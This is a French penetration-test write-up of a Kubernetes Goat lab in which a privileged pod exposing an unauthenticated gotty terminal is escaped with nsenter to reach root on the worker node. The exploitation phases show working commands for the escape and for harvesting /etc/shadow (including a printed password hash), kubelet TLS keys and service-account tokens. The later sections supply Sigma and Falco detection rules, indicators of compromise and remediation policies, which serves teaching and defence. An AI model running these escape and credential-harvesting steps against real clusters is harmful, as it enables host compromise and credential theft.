




# SC-CLD-003 — Container Escape to Host System

## Classification

| Champ | Valeur |
|-------|--------|
| **Code scénario** | SC-CLD-003 |
| **Nom** | Container Escape to Host System |
| **Cible** | Pod `system-monitor-deployment` → Worker Node `k8s-prod-worker-1` |
| **VLAN** | 30 — Cloud Lab (192.168.30.0/24) |
| **Sévérité** | 🔴 Critique |
| **CVSS 3.1** | 9.8 (AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H) |
| **CWE** | CWE-250 (Execution with Unnecessary Privileges) |
| **MITRE ATT&CK** | T1611 (Escape to Host), T1552.004 (Unsecured Credentials: Private Keys), T1003.008 (OS Credential Dumping: /etc/shadow) |
| **Flag** | `k8s-goat-cd2da27224591da2b48ef83826a8a6c3` |
| **Date** | 20 février 2026 |
| **Auteur** | Nadyr Chouarhi (hik3nR00t) |

---

## Résumé exécutif

### Pour un recruteur
Ce test démontre qu'un conteneur Kubernetes mal configuré permet de prendre le **contrôle total de la machine hôte**. Depuis un simple navigateur web, l'attaquant obtient un accès root sur le serveur, lit les mots de passe, vole les certificats du cluster et peut pivoter vers toute l'infrastructure. Cette vulnérabilité est la **première cause d'incidents Kubernetes en entreprise** (59% des incidents selon Red Hat 2024).

### Pour un auditeur ISO 27001 / NIS2
Non-conformité A.8.31 (Séparation des environnements), A.8.24 (Utilisation de la cryptographie pour les credentials), A.8.9 (Gestion de la configuration). Le pod déployé avec `privileged: true`, `hostPID: true`, `hostIPC: true` et un `hostPath` sur `/` viole le principe de moindre privilège et les exigences de cloisonnement. L'absence de Pod Security Standards (PSS) et d'Admission Controller constitue une déficience majeure du contrôle de sécurité.

### Pour un RSSI
Impact maximal : compromission d'un worker node Kubernetes via un container escape, avec exfiltration de credentials (hash SHA-512, certificats TLS du kubelet, 5 tokens JWT de service accounts), accès en lecture/écriture au filesystem hôte, et capacité de pivot vers les 2 autres nodes du cluster. Le vecteur d'attaque ne nécessite **aucune authentification** — un terminal web gotty est exposé en clair. Remédiation immédiate requise : Pod Security Admission en mode `restricted`, suppression des capacités privileged/hostPID/hostIPC/hostPath.

---

## Diagramme réseau réel (IPs / Services / Namespaces)



---

## Kill Chain



---

## Reconnaissance

### Identification du pod vulnérable

```bash
$ sudo kubectl --kubeconfig /etc/rancher/k3s/k3s.yaml get pods -A | grep system-monitor
default   system-monitor-deployment-54fd6f868b-h6dcb   1/1   Running   2 (5h17m ago)   29h
```

### Inspection du Security Context

```bash
$ sudo kubectl get pod system-monitor-deployment-54fd6f868b-h6dcb -o json | jq '{
  privileged: .spec.containers[0].securityContext.privileged,
  hostPID: .spec.hostPID,
  hostNetwork: .spec.hostNetwork,
  hostIPC: .spec.hostIPC,
  volumeMounts: [.spec.containers[0].volumeMounts[]?.mountPath],
  hostPathVolumes: [.spec.volumes[]? | select(.hostPath) | {name: .name, path: .hostPath.path}]
}'
```

**Réponse complète :**

```json
{
  "privileged": true,
  "hostPID": true,
  "hostNetwork": null,
  "hostIPC": true,
  "volumeMounts": [
    "/host-system",
    "/var/run/secrets/kubernetes.io/serviceaccount"
  ],
  "hostPathVolumes": [
    {
      "name": "host-filesystem",
      "path": "/"
    }
  ]
}
```

**Analyse :** Quatre misconfigurations critiques combinées. Le pod a un accès complet au hardware (`privileged`), voit tous les processus du node (`hostPID`), partage les communications inter-processus (`hostIPC`), et le filesystem racine du host est monté dans le container sur `/host-system` (`hostPath: /`).

### Service exposé

```bash
$ sudo kubectl get svc system-monitor-service
NAME                     TYPE        CLUSTER-IP     PORT(S)    AGE
system-monitor-service   ClusterIP   10.43.197.73   8080/TCP   30h
```

### Contenu du service — Terminal web gotty

```bash
$ curl -s http://127.0.0.1:1235/ | head -15
```

**Réponse HTTP brute :**

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

<!doctype html>
<html>
  <head>
    <title>bash@system-monitor-deployment-54fd6f868b-h6dcb</title>
    <link rel="icon" type="image/png" href="favicon.png">
    <link rel="stylesheet" href="./css/index.css" />
    <link rel="stylesheet" href="./css/xterm.css" />
    <link rel="stylesheet" href="./css/xterm_customize.css" />
  </head>
  <body>
    <div id="terminal"></div>
    <script src="./auth_token.js"></script>
    <script src="./config.js"></script>
    <script src="./js/gotty-bundle.js"></script>
  </body>
</html>
```

**Analyse :** Le service expose **gotty**, un outil qui donne un terminal bash interactif via un navigateur web. Aucune authentification requise. Combiné aux 4 misconfigurations du pod, cela donne un accès root au host via un simple navigateur.

---

## Exploitation

### Phase 1 — Confirmation du contexte (dans le container via gotty)

**Objectif :** Confirmer qu'on est dans un container avec des privilèges excessifs.

```bash
root@system-monitor-deployment-54fd6f868b-h6dcb:/# hostname
system-monitor-deployment-54fd6f868b-h6dcb

root@system-monitor-deployment-54fd6f868b-h6dcb:/# id
uid=0(root) gid=0(root) groups=0(root)

root@system-monitor-deployment-54fd6f868b-h6dcb:/# cat /proc/1/cgroup
0::/init.scope
```

**Analyse :** `init.scope` au lieu d'un chemin `kubepods/pod-xxxx` indique que le PID 1 visible est celui du **host** (systemd), pas celui du container. Cela confirme `hostPID: true`.

```bash
root@system-monitor-deployment-54fd6f868b-h6dcb:/# cat /host-system/etc/hostname
k8s-prod-worker-1
```

**Analyse :** Le filesystem du worker node `k8s-prod-worker-1` (192.168.30.11) est monté et accessible en lecture/écriture.

```bash
root@system-monitor-deployment-54fd6f868b-h6dcb:/# ps aux | head -10
USER   PID %CPU %MEM    VSZ   RSS TTY  STAT START   TIME COMMAND
root     1  0.0  0.1  21956 13244 ?   Ss   13:04   0:00 /sbin/init
root     2  0.0  0.0      0     0 ?   S    13:04   0:00 [kthreadd]
root     3  0.0  0.0      0     0 ?   S    13:04   0:00 [pool_workqueue_release]
...
```

**Analyse :** Le PID 1 est `/sbin/init` (systemd du host). Les processus kernel (`kthreadd`, `kworker`) sont visibles. Un container normal ne verrait que ses propres processus.

### Phase 2 — Container Escape via nsenter

**Objectif :** Sortir du container et obtenir un shell root sur le host.

**Technique :** `nsenter` (namespace enter) permet d'entrer dans les namespaces Linux d'un autre processus. En ciblant le PID 1 du host (visible grâce à `hostPID: true`), on entre dans ses namespaces mount, UTS, IPC, network et PID. Le shell résultant a le contexte complet du host.

```bash
root@system-monitor-deployment-54fd6f868b-h6dcb:/# nsenter --target 1 --mount --uts --ipc --net --pid -- /bin/bash

root@k8s-prod-worker-1:/# hostname
k8s-prod-worker-1

root@k8s-prod-worker-1:/# id
uid=0(root) gid=0(root) groups=0(root)

root@k8s-prod-worker-1:/# cat /etc/os-release | head -3
PRETTY_NAME="Ubuntu 24.04.2 LTS"
NAME="Ubuntu"
VERSION_ID="24.04"

root@k8s-prod-worker-1:/# ip addr show | grep "inet "
    inet 127.0.0.1/8 scope host lo
    inet 192.168.30.11/24 brd 192.168.30.255 scope global ens18
    inet 10.42.1.0/32 scope global flannel.1
    inet 10.42.1.1/24 brd 10.42.1.255 scope global cni0
```

**Escape confirmé.** Le prompt est passé de `system-monitor-deployment-*` à `k8s-prod-worker-1`. On est root sur la VM 131 (Ubuntu 24.04.2 LTS). L'interface `ens18` confirme l'IP 192.168.30.11, `flannel.1` est le réseau overlay inter-pods, `cni0` est le bridge CNI local.

### Phase 3 — Credential Harvesting

**Objectif :** Récolter tous les secrets accessibles depuis le host compromis.

#### 3a — Hash des mots de passe (/etc/shadow)

```bash
root@k8s-prod-worker-1:/# cat /etc/shadow | grep -v ":\*:" | grep -v ":!:"
hiken:$6$etkRuRI6Rverq412$N0snQTENOsvYNWizrmslFtuCt5vqcxdtb9Tr/38I88MeR.upUB3rrItEsKJ2BCW28UpfH3IpcGlVx..0oyfll.:20502:0:99999:7:::
```

**Analyse :** Hash SHA-512 (`$6$`) de l'utilisateur `hiken`. Crackable offline avec hashcat (`-m 1800`). Si ce mot de passe est réutilisé sur le master ou worker-2, l'ensemble du cluster est compromis.

#### 3b — Kubelet kubeconfig et certificats TLS

```bash
root@k8s-prod-worker-1:/# cat /var/lib/rancher/k3s/agent/kubelet.kubeconfig
apiVersion: v1
clusters:
- cluster:
    server: https://127.0.0.1:6444
    certificate-authority: /var/lib/rancher/k3s/agent/server-ca.crt
  name: local
contexts:
- context:
    cluster: local
    namespace: default
    user: user
  name: Default
current-context: Default
kind: Config
preferences: {}
users:
- name: user
  user:
    client-certificate: /var/lib/rancher/k3s/agent/client-kubelet.crt
    client-key: /var/lib/rancher/k3s/agent/client-kubelet.key
```

**Fichiers sensibles récupérés :**

```bash
root@k8s-prod-worker-1:/# ls -la /var/lib/rancher/k3s/agent/
-rw------- 1 root root  570 client-ca.crt
-rw------- 1 root root 1153 client-k3s-controller.crt
-rw------- 1 root root  227 client-k3s-controller.key
-rw------- 1 root root 1149 client-kube-proxy.crt
-rw------- 1 root root  227 client-kube-proxy.key
-rw------- 1 root root 1193 client-kubelet.crt
-rw------- 1 root root  227 client-kubelet.key
-rw------- 1 root root  475 k3scontroller.kubeconfig
-rw------- 1 root root  461 kubelet.kubeconfig
-rw------- 1 root root  467 kubeproxy.kubeconfig
-rw------- 1 root root  566 server-ca.crt
-rw------- 1 root root 1242 serving-kubelet.crt
-rw------- 1 root root  227 serving-kubelet.key
```

**Analyse :** Le kubelet kubeconfig contient le certificat client qui authentifie ce node auprès de l'API server K3s. Avec `client-kubelet.crt` et `client-kubelet.key`, un attaquant peut se faire passer pour ce worker node et interagir avec l'API Kubernetes.

#### 3c — Service Account Tokens JWT (5 tokens volés)

```bash
root@k8s-prod-worker-1:/# find /var/lib/kubelet/pods/ -name "token" 2>/dev/null
```

**Tokens récupérés :**

| Pod ID (UUID) | Pod | Namespace | Service Account | Risque |
|---------------|-----|-----------|-----------------|--------|
| `74dcc8e5-...` | `system-monitor-deployment` | default | default | Moyen — notre pod d'entrée |
| `7d84858c-...` | `health-check-deployment` | default | default | Moyen — token standard |
| `8d3bace7-...` | `build-code-deployment` | default | default | Élevé — contexte CI/CD |
| `de9858e6-...` | `hunger-check-deployment` | **big-monolith** | **big-monolith-sa** | **Critique** — SA custom, possibles privilèges élevés |
| `e5a7f378-...` | `cache-store-deployment` | **secure-middleware** | default | Élevé — namespace sensible |

**Analyse :** Le token le plus dangereux est celui du namespace `big-monolith` avec le service account `big-monolith-sa`. Un SA dédié (non-default) a souvent des RBAC bindings avec des permissions étendues. L'attaquant peut utiliser ces tokens pour interagir avec l'API Kubernetes en se faisant passer pour ces pods.

#### 3d — Preuve d'écriture sur le host

```bash
root@k8s-prod-worker-1:/# echo "CONTAINER ESCAPE PROOF — hik3nR00t Fri Feb 20 18:43:41 UTC 2026" > /tmp/pwned-by-hik3nr00t.txt
root@k8s-prod-worker-1:/# cat /tmp/pwned-by-hik3nr00t.txt
CONTAINER ESCAPE PROOF — hik3nR00t Fri Feb 20 18:43:41 UTC 2026
```

**Analyse :** L'écriture arbitraire est confirmée. Un attaquant pourrait installer une backdoor (clé SSH, crontab, binaire modifié), modifier les configurations K3s, ou déployer du ransomware.

### Phase 4 — Pivot réseau

```bash
root@k8s-prod-worker-1:/# ping -c 1 192.168.30.10
64 bytes from 192.168.30.10: icmp_seq=1 ttl=64 time=0.525 ms

root@k8s-prod-worker-1:/# ping -c 1 192.168.30.12
64 bytes from 192.168.30.12: icmp_seq=1 ttl=64 time=0.511 ms
```

**Analyse :** Le master (192.168.30.10) et le worker-2 (192.168.30.12) sont accessibles. Le fichier `authorized_keys` est vide (pas de pivot SSH direct), mais les certificats kubelet récupérés permettent un pivot via l'API Kubernetes.

### Test RBAC — Vérification des permissions API

```bash
root@system-monitor-deployment-54fd6f868b-h6dcb:/# curl -sk -H "Authorization: Bearer $TOKEN" \
  "https://kubernetes.default.svc/api/v1/namespaces/default/secrets"
```

**Réponse :**

```json
{
  "kind": "Status",
  "status": "Failure",
  "message": "secrets is forbidden: User \"system:serviceaccount:default:default\" cannot list resource \"secrets\" in API group \"\" in the namespace \"default\"",
  "code": 403
}
```

**Analyse critique :** Le RBAC est correctement configuré — le SA `default:default` n'a pas le droit de lister les secrets via l'API. **Mais cela ne protège de rien** car l'attaquant n'a pas besoin de l'API : il lit les fichiers directement sur le filesystem du host via `hostPath` ou `nsenter`. La sécurité au niveau pod (SecurityContext) est plus critique que le RBAC dans ce scénario.

---

## Données exfiltrées

| Donnée | Source | Criticité |
|--------|--------|-----------|
| Hash SHA-512 de `hiken` | `/etc/shadow` | 🔴 Critique |
| Kubelet kubeconfig | `/var/lib/rancher/k3s/agent/kubelet.kubeconfig` | 🔴 Critique |
| Certificat client kubelet + clé privée | `client-kubelet.crt` / `client-kubelet.key` | 🔴 Critique |
| Certificat kube-proxy + clé privée | `client-kube-proxy.crt` / `client-kube-proxy.key` | 🟠 Élevé |
| Certificat K3s controller + clé privée | `client-k3s-controller.crt` / `client-k3s-controller.key` | 🟠 Élevé |
| CA du cluster | `server-ca.crt` / `client-ca.crt` | 🟠 Élevé |
| 5 tokens JWT Service Account | `/var/lib/kubelet/pods/*/...token` | 🔴 Critique |
| Hostname et OS du host | `/etc/hostname`, `/etc/os-release` | 🟡 Moyen |
| Configuration réseau complète | `ip addr show` (ens18, flannel.1, cni0) | 🟡 Moyen |
| Flag Kubernetes Goat | Variable d'environnement `K8S_GOAT_VAULT_KEY` | — |

---

## Impact technique

Un attaquant qui exploite cette vulnérabilité obtient :

1. **Root sur le worker node** — Contrôle total de la VM 131, accès à tous les fichiers, processus et interfaces réseau.

2. **Lecture de tous les secrets des pods locaux** — Les 5 tokens JWT des pods hébergés sur ce worker sont lisibles, permettant d'usurper l'identité de n'importe quel pod/SA.

3. **Credentials du cluster** — Le kubelet kubeconfig et les certificats TLS permettent de s'authentifier auprès de l'API server K3s en tant que ce node.

4. **Pivot vers le cluster entier** — Le master (192.168.30.10) et worker-2 (192.168.30.12) sont atteignables. Avec les credentials kubelet, l'attaquant peut potentiellement escalader vers cluster-admin.

5. **Persistance** — L'écriture sur le filesystem host permet d'installer des backdoors (clé SSH, crontab, module kernel, modification de binaires).

6. **Interception réseau** — L'accès aux interfaces flannel.1 et cni0 permet le sniffing de tout le trafic inter-pods du cluster.

---

## Impact métier — MediaTech Groupe SA

### Estimation financière

| Impact | Estimation | Justification |
|--------|-----------|---------------|
| **Amende RGPD** | 2 000 000 € à 10 000 000 € | Accès non autorisé aux données personnelles via les pods applicatifs. RGPD Art. 83(4) : jusqu'à 2% du CA mondial ou 10M€. |
| **Perte d'exploitation** | 500 000 € à 2 000 000 € | Arrêt de la production pendant l'investigation forensique (2-5 jours). Coût moyen d'un jour d'arrêt pour un groupe de presse numérique. |
| **Investigation forensique** | 150 000 € à 400 000 € | DFIR externe (Mandiant/CrowdStrike), audit complet du cluster, rotation de tous les secrets et certificats. |
| **Atteinte réputationnelle** | 1 000 000 € à 5 000 000 € | Perte de confiance des annonceurs et abonnés. Impact sur les contrats en cours. |
| **Coût de remédiation** | 200 000 € à 500 000 € | Refonte de l'architecture K8s, déploiement PSA/Kyverno, formation des équipes. |
| **TOTAL estimé** | **3 850 000 € à 17 900 000 €** | |

### Impact réglementaire

- **RGPD** — Violation des articles 5(1)(f) (intégrité et confidentialité), 25 (protection dès la conception), 32 (mesures techniques). Notification CNIL obligatoire sous 72h.
- **NIS2** — Non-conformité aux exigences de gestion des risques cyber (Article 21). Les containers privilégiés sans contrôle d'admission violent l'obligation de mesures techniques appropriées.
- **ISO 27001** — Non-conformité A.8.31 (Séparation des environnements), A.8.9 (Gestion de la configuration), A.5.15 (Contrôle d'accès).

---

## Matrice de risque



---

## Détection SOC / SIEM

### Logs exploitables

| Source | Log | Indicateur |
|--------|-----|------------|
| **Kubernetes Audit Log** | `RequestReceived` pour `create pod` avec `privileged: true` | Détection au déploiement |
| **Falco** | `Terminal shell in container` | Connexion gotty interactive |
| **Falco** | `Nsenter detected` | Exécution de nsenter dans un container |
| **Falco** | `Read sensitive file trusted after startup` | Lecture de `/etc/shadow` |
| **Syslog host** | `auth.log` | Accès root sans session SSH (anomalie) |
| **Auditd** | `execve` nsenter | Appel système nsenter tracé |
| **Wazuh** | File Integrity Monitoring | Écriture de `/tmp/pwned-by-hik3nr00t.txt` |
| **Network** | trafic HTTP non chiffré vers port 8080 | Terminal web sans TLS |

### Règles Sigma

```yaml
# Sigma Rule 1 — Détection de nsenter depuis un container
title: Container Escape via nsenter
id: sc-cld-003-001
status: experimental
description: Détecte l'utilisation de nsenter ciblant PID 1 depuis un contexte container
logsource:
    product: linux
    service: auditd
detection:
    selection:
        type: EXECVE
        a0: nsenter
        a1|contains: '--target'
        a2: '1'
    condition: selection
level: critical
tags:
    - attack.privilege_escalation
    - attack.t1611
falsepositives:
    - Outils de debugging légitimes (rares en production)
---

# Sigma Rule 2 — Lecture de /etc/shadow depuis un container
title: Credential Access via Shadow File Read from Container
id: sc-cld-003-002
status: experimental
description: Détecte la lecture de /etc/shadow depuis un processus ayant un cgroup container
logsource:
    product: linux
    service: auditd
detection:
    selection:
        type: PATH
        name: /etc/shadow
    filter:
        exe|contains:
            - '/usr/sbin/sshd'
            - '/usr/bin/login'
            - '/usr/bin/passwd'
    condition: selection and not filter
level: high
tags:
    - attack.credential_access
    - attack.t1003.008
---

# Sigma Rule 3 — Pod déployé avec privileged: true
title: Privileged Kubernetes Pod Deployment
id: sc-cld-003-003
status: experimental
description: Détecte le déploiement d'un pod avec securityContext.privileged=true
logsource:
    product: kubernetes
    service: audit
detection:
    selection:
        verb: create
        objectRef.resource: pods
        requestObject.spec.containers[].securityContext.privileged: true
    condition: selection
level: critical
tags:
    - attack.execution
    - attack.t1610
```

### Règle Falco

```yaml
- rule: Container Escape via nsenter
  desc: Détecte nsenter ciblant PID 1 dans un container (container escape)
  condition: >
    spawned_process and container and
    proc.name = "nsenter" and
    proc.args contains "--target 1"
  output: >
    CRITICAL: Container escape detected via nsenter
    (user=%user.name pod=%k8s.pod.name ns=%k8s.ns.name
     container=%container.name image=%container.image.repository
     command=%proc.cmdline)
  priority: CRITICAL
  tags: [container, escape, mitre_privilege_escalation, T1611]
```

### Indicateurs de compromission (IOC)

| Type | Valeur | Description |
|------|--------|-------------|
| **Process** | `nsenter --target 1 --mount --uts --ipc --net --pid` | Commande d'escape |
| **File** | `/tmp/pwned-by-hik3nr00t.txt` | Preuve d'écriture attaquant |
| **File access** | Lecture de `/etc/shadow` depuis un container | Credential harvesting |
| **File access** | Lecture de `/var/lib/rancher/k3s/agent/*.key` | Vol de clés TLS |
| **File access** | Lecture de `/var/lib/kubelet/pods/*/token` | Vol de tokens JWT |
| **Network** | Trafic HTTP non chiffré sur port 8080 (gotty) | Terminal web exposé |
| **K8s config** | Pod avec `privileged: true` + `hostPID: true` | Misconfiguration critique |

---

## Remédiation — Secure by Design

### Immédiat (24h) — Stopper l'hémorragie

1. **Supprimer le pod system-monitor** ou reconfigurer sans privilèges :
```bash
kubectl delete deployment system-monitor-deployment
```

2. **Activer Pod Security Admission en mode `restricted`** sur le namespace default :
```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: default
  labels:
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/warn: restricted
    pod-security.kubernetes.io/audit: restricted
```

3. **Rotation immédiate des credentials** :
```bash
# Révoquer et regénérer les certificats kubelet
systemctl restart k3s-agent
# Changer le mot de passe de hiken sur tous les nodes
passwd hiken  # sur chaque node
```

### Court terme (1 semaine) — Verrouiller

4. **Déployer Kyverno ou OPA Gatekeeper** pour bloquer automatiquement les pods avec `privileged: true`, `hostPID`, `hostIPC`, `hostPath` :

```yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: deny-privileged-containers
spec:
  validationFailureAction: Enforce
  rules:
  - name: deny-privileged
    match:
      any:
      - resources:
          kinds:
          - Pod
    validate:
      message: "Les containers privilegiés sont interdits."
      pattern:
        spec:
          containers:
          - securityContext:
              privileged: "!true"
  - name: deny-host-namespaces
    match:
      any:
      - resources:
          kinds:
          - Pod
    validate:
      message: "hostPID, hostIPC et hostNetwork sont interdits."
      pattern:
        spec:
          =(hostPID): false
          =(hostIPC): false
          =(hostNetwork): false
  - name: deny-hostpath
    match:
      any:
      - resources:
          kinds:
          - Pod
    validate:
      message: "Les volumes hostPath sont interdits."
      deny:
        conditions:
          any:
          - key: "{{ request.object.spec.volumes[?hostPath] | length(@) }}"
            operator: GreaterThan
            value: 0
```

5. **Déployer Falco** pour la détection runtime des container escapes.

6. **Activer les Kubernetes Audit Logs** pour tracer tous les déploiements de pods.

### Moyen terme (1 mois) — Architecture sécurisée

7. **Implémenter les Network Policies** pour isoler chaque namespace :
```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: deny-all-default
  namespace: default
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
```

8. **Activer le chiffrement des secrets at rest** dans K3s.

9. **Implémenter le Seccomp profile** `RuntimeDefault` sur tous les pods.

10. **Scanner régulièrement les manifests YAML** avec Kubescape ou kube-bench (CIS Benchmark).

---

## Architecture cible sécurisée



---

## Statistiques réelles

| Source | Statistique | Année |
|--------|-------------|-------|
| Red Hat State of K8s Security | 59% des incidents K8s causés par des misconfigurations | 2024 |
| Red Hat State of K8s Security | 89% des organisations ont subi au moins 1 incident K8s | 2024 |
| Red Hat State of K8s Security | 46% des organisations ont perdu des revenus suite à un incident K8s | 2024 |
| Red Hat State of K8s Security | 67% ont retardé des déploiements à cause de problèmes de sécurité K8s | 2024 |
| Mend.io | 58% des organisations ont subi un incident container/K8s dans l'année | 2025 |
| KLEAP / Medium | 85% des images containers en production contiennent des vulnérabilités hautes ou critiques | 2026 |
| Wiz K8s Security Report | Seulement 54% des clusters K8s tournent sur des versions supportées | 2025 |

---

## Références

| Référence | Lien |
|-----------|------|
| MITRE ATT&CK T1611 — Escape to Host | https://attack.mitre.org/techniques/T1611/ |
| MITRE ATT&CK T1552.004 — Private Keys | https://attack.mitre.org/techniques/T1552/004/ |
| CWE-250 — Execution with Unnecessary Privileges | https://cwe.mitre.org/data/definitions/250.html |
| Kubernetes Pod Security Standards | https://kubernetes.io/docs/concepts/security/pod-security-standards/ |
| Kubernetes Pod Security Admission | https://kubernetes.io/docs/concepts/security/pod-security-admission/ |
| Kyverno — Policy Engine | https://kyverno.io/ |
| Falco — Runtime Security | https://falco.org/ |
| CIS Kubernetes Benchmark | https://www.cisecurity.org/benchmark/kubernetes |
| Kubernetes Goat — Container Escape | https://madhuakula.com/kubernetes-goat/ |
| nsenter(1) — Linux man page | https://man7.org/linux/man-pages/man1/nsenter.1.html |
| Red Hat State of K8s Security 2024 | https://www.redhat.com/en/resources/kubernetes-adoption-security-market-trends-overview |

---

*"Un seul pod avec privileged: true peut défaire un cluster entier." — Raziel*
